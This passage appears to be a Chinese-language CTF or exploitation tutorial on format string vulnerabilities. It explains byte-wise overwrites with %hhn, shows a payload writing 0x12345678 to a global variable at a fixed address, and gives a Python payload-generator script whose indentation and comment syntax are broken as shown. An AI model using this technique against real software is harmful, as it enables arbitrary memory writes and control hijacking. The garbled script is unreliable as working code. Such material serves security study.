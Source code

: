 所以说，我们可以**利用%hhn向某个地址写入单字节[而不是4字节4字节的写入，只修改这个地址下的字节,不影响其余3字节]，利用%hn向某个地址写入双字节**。

b变量作为已初始化的全局变量，同样位于.data节中，利用ida看一下，可以发现地址为0x0804A02C[这是变量b的起始地址,实际b作为int类型，占据的地址为0x0804A02C-0x0804A02F]

接下来，按照如下方式进行覆盖，

> 0x0804A02C -> x78
>
> 0x0804A02D -> x56
>
> 0x0804A02E -> x34
>
> 0x0804A02F -> x12

由于此前通过调试确定，我们的字符串的偏移为6，所以我们可以确定我们的payload基本是这个样子的：

> p32(0x0804A02C)+p32(0x0804A02D)+p32(0x0804A02E)+p32(0x0804A02F)+padding1+’%6$n’+padding2+’%7$n’+padding3+’%8$n’+padding4+’%9$n’

以上未明确的padding,按照根据需要填充的数据值进行修改，使得在进行解析%k$n之前，输出的字符串数[用paddings来控制]等于这个地址要写入的数值。

这里有一个通用的写入大数的脚本:

```python 
//格式化字符串漏洞——覆盖4字节的大数字[大数字中的各个字节很小也可以]

def fmt(prev, word, index):
    if prev < word:
    result = word - prev  #此前已经输出prev个字符，现在补充word-prev个字符，相当于总的输出了word个字符
    fmtstr = "%" + str(result) + "c" #解析栈中对应值，输出result个字符
    elif prev == word:
    result = 0
    else:  #word<prev
    result = 256 + word - prev #如果这个地址要写入的数字小于已经输出字符数，
	#那么就+256=0x0100,让他成为一个2字节大小的数据，实际%hhn只会写入低位的那个字节。
	#因为此前已经输出了prev个字符，这里是做字符补充，所以最终相当于输出%(256+word)c，256=0x0100高位被舍去，剩下低字节的word。
    fmtstr = "%" + str(result) + "c"
    fmtstr += "%" + str(index) + "$hhn"
    return fmtstr
def fmt_str(offset, size, addr, target):
        payload = ""
        for i in range(4):
        if size == 4:
        payload += p32(addr + i)
        else:
        payload += p64(addr + i)
        prev = len(payload)
        for i in range(4):
        payload += fmt(prev, (target >> i * 8) & 0xff, offset + i) #(target >> i * 8) & 0xff获取大数字的每一个字节
        prev = (target >> i * 8) & 0xff
        return payload
    
payload = fmt_str(6,4,0x0804A02C,0x12345678)  
# 6：字符串参数首个待写地址的偏移 ； 4：32位，4字节机器 ；写入变量的起始地址【低地址】 ；写入变量地址的数据
```
